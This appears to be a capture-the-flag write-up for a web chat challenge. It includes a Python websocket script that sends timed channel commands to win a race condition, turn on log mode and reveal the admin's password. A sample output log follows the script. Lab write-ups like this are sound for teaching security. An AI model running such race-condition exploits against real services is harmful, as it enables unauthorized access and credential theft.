


In this challenge, we can exploit a race condition vulnerability. First, let's understand some of the features in the challenge:


- /join [channel]: switch to a different channel, if that channel is not set as `admin-only true`
- /create [channel]   create a new channel
- /delete [channel]   delete a channel
- /login [password]   log in as a moderator or admin.
- /set [prop] [value] Configure channels or users. This feature is the key to exploiting the vulnerability. We can set a channel to `log` mode so that joining that channel will return the log of all activity. However, the channel must be `admin-only` to enable this setting.

The plan is to create a new channel, set it to hidden so other players can't join, and then set that channel to `admin-only` to gain the ability to enable `log` mode. To access it later, we need to set `admin-only` to false. This requires executing three commands quickly to trigger the race condition.

```py
import websocket
import requests
import time
import random

# Create a session and log in
session = requests.Session()
url = 'http://challenge.utctf.live:5213/'
session.post(url + 'login', data={'username': 'a'})
cookies = session.cookies.get_dict()
ws_url = "ws://challenge.utctf.live:5213/socket"

def on_message(ws, message):
    if "/style" not in message:  # Skip style messages for better output
        print("[*]Received:", message)

randomNum = str(random.random())
def on_open(ws):
    commands = [
        f"/delete nglong05{randomNum}",
        f"/create nglong05{randomNum}",
        f"/join nglong05{randomNum}",
        "/set channel.hidden true",
        "/set channel.admin-only true",
        "/set channel.mode log",
        "/set channel.admin-only false"
    ]
    
    for cmd in commands:
        ws.send(cmd)
        time.sleep(0.02)  # race conditions

# Connect WebSocket
ws = websocket.WebSocketApp(
    ws_url,
    header=[f"Cookie: web-chat-userid={cookies.get('web-chat-userid', '')}"],
    on_message=on_message,
    on_open=on_open
)

ws.run_forever()
```
The output will be something like this:
```
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Channel does not exist
[*]Received: Created channel 'nglong050.4822082942614303'
[*]Received: /create nglong050.4822082942614303 1qn6kvc8pyy0v a
[*]Received: Switched to channel 'nglong050.4822082942614303'
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Updated property 'channel.hidden'
[*]Received: //channels general log mod-info
[*]Received: Updated property 'channel.admin-only'
[*]Received: Updated property 'channel.mode'
```


Notice that even though the channel is set to admin-only, we can still join it because we set it to false immediately after.

Now, we can view the log of the admin login along with their password.

Use that password to log in as an admin and retrieve the flag.
